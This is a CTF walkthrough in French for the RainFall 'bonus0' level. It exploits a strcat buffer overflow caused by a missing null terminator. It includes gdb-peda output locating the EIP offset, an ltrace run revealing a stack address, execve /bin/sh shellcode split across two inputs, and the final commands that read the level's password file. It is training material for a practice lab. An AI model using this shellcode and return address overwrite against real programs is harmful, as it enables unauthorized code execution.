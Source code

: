 # Bonus0

- en lisant le code et en l'executant on comprend qu'il y a un bug/faille
- dans la fonction pp le \0 de la 1er string est remplacer par un espace
- se qui fait quequand la premiere string est entierement remplis il considere str1 et str2 comme une string
- str2 est donc copier a la fin de str1 + str2 dans strcat
- Dans gdb on voit donc qu'on peut ecrire sur la variable $eip
<pre>
gdb-peda$ pattern create 30
'AAA%AAsAABAA$AAnAACAA-AA(AADAA'
gdb-peda$ r
Starting program: /home/alarm/rainfall/bonus0/Ressources/bonus0 
 - 
iiiiiiiiiiiiiiiiiiiiiiiiiiiiiiiiiiiiiii
 - 
AAA%AAsAABAA$AAnAACAA-AA(AADAA
iiiiiiiiiiiiiiiiiiiiAAA%AAsAABAA$AAnAACA AAA%AAsAABAA$AAnAACA

Program received signal SIGSEGV, Segmentation fault.
[----------------------------------registers-----------------------------------]
<strong>EIP: 0x416e4141 ('AAnA')</strong>
EFLAGS: 0x10246 (carry PARITY adjust ZERO sign trap INTERRUPT direction overflow)
[-------------------------------------code-------------------------------------]
Invalid $PC address: 0x416e4141
[------------------------------------------------------------------------------]
Legend: code, data, rodata, value
Stopped reason: SIGSEGV
0x416e4141 in ?? ()
gdb-peda$ pattern offset AAnA
<strong>AAnA found at offset: 13</strong>
</pre>

<pre>
bonus0@RainFall:~$ (echo BBBBBBBBBBBBBBBBBBB; sleep 1; echo AAAAAAAAAAAAAAAAAAAAA; cat) | ltrace ./bonus0 
\__libc_start_main(0x80485a4, 1, 0xbffff704, 0x80485d0, 0x8048640 <unfinished ...>
puts(" - ")                                                                                = 4
read(0, "BBBBBBBBBBBBBBBBBBB\n", 4096)                                                     = 20
strchr("BBBBBBBBBBBBBBBBBBB\n", '\n')                                                      = "\n"
strncpy(0xbffff5e8, "BBBBBBBBBBBBBBBBBBB", 20)                                             = 0xbffff5e8
puts(" - ")                                                                                = 4
read(0, "AAAAAAAAAAAAAAAAAAAAA\n", 4096)                                                   = 22
strchr("AAAAAAAAAAAAAAAAAAAAA\n", '\n')                                                    = "\n"
strncpy(0xbffff5fc, "AAAAAAAAAAAAAAAAAAAA", 20)                                            = 0xbffff5fc
strcpy(<strong>0xbffff636</strong>, "BBBBBBBBBBBBBBBBBBB")                                                  = 0xbffff636
strcat("BBBBBBBBBBBBBBBBBBB ", "AAAAAAAAAAAAAAAAAAAA\364\017\375\267")                     = "BBBBBBBBBBBBBBBBBBB AAAAAAAAAAAA"...
puts("BBBBBBBBBBBBBBBBBBB AAAAAAAAAAAA"...)                                                = 45
+++ exited (status 0) +++
</pre>
- On a l'addresse de notre stack (*0xbffff636*)
- Notre shellcode fait 21 carrecter donc on le decoupe en deux 20 dans le premier argument et 1 dans le deuxieme

| Arg 1 | Arg 2 |
|-------|-------|
| `\x31\xc9\xf7\xe1\x51\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\xb0\x0b\xcd\n` | `\80` + `B` \* 8 + `0xbffff636` + `B` \* 20 + `\n`|

- Donc en gros on overide la return address pour qu'elle renvoie sur notre shellcode
- On utilise un code en C car il y a des problemes avec python
```
gcc /tmp/pattern.c -o /tmp/pat
gcc /tmp/shellcode.c -o /tmp/shell
(/tmp/shell; sleep 1; /tmp/pat; cat) | ./bonus0
cat /home/user/bonus0/.pass
```
